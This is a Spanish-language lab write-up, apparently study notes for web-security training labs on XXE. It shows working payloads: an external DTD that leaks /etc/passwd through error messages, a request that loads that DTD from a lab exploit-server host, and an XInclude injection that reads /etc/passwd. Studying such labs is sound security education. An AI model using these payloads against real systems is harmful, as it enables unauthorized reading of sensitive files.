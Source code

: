 Se refiere a una técnica de explotación de la vulnerabilidad de XXE (XML External Entity) en la que un atacante intenta extraer información sensible de un sistema objetivo a través de mensajes de error generados por el servidor, incluso cuando no recibe una respuesta directa del servidor.

Este laboratorio tiene una función llamada "Verificar stock" que analiza una entrada XML pero no muestra el resultado.,Para resolver el laboratorio, utiliza un DTD externo para provocar un mensaje de error que muestre el contenido del archivo /etc/passwd.
El laboratorio contiene un enlace a un servidor de explotación en un dominio diferente donde puedes alojar tu DTD malicioso.

![[Pasted image 20230817134112.png]]
![[Pasted image 20230817134141.png]]

```java
<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % eval "<!ENTITY &#x25; exfil SYSTEM 'file:///meloinvento/%file;'>">
%eval;
%exfil;
```

```java
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ENTITY % xxe SYSTEM "https://exploit-0ab800560426ea4284fea4d4011200c2.exploit-server.net/exploit"> %xxe; ]>
<stockCheck>
<productId>
2
</productId>
<storeId>
1
</storeId>
</stockCheck>
```
---

# Lab 7 : Exploiting XInclude to retrieve files

"Exploiting XInclude to retrieve files" se refiere a una técnica de explotación que aprovecha la funcionalidad de inclusión XML (XInclude) para obtener acceso a archivos en un sistema. XInclude es una característica que permite a los documentos XML incluir contenido de otros documentos XML. Los atacantes pueden abusar de esta funcionalidad para acceder a archivos sensibles o confidenciales en un sistema objetivo.

- **XInclude**: XInclude es una técnica utilizada en XML para combinar contenido de varios documentos XML en uno solo. Permite la inclusión de fragmentos de XML desde otros documentos utilizando la etiqueta `<xi:include>`.
    
- **Exploiting XInclude**: Los atacantes pueden abusar de XInclude para acceder a archivos en el sistema. Pueden manipular la entrada XML para incluir referencias a archivos locales o remotos y forzar al servidor a procesar esos archivos durante el análisis del XML.
    
- **Retrieve Files**: La explotación de XInclude para recuperar archivos implica que el atacante inserta una referencia a un archivo específico que desea acceder, como archivos de configuración, datos confidenciales o cualquier otro archivo en el sistema objetivo.
![[Pasted image 20230817140650.png]]
```java
productId=<foo xmlns:xi="http://www.w3.org/2001/XInclude">
<xi:include parse="text" href="file:///etc/passwd"/></foo>&storeId=1
```
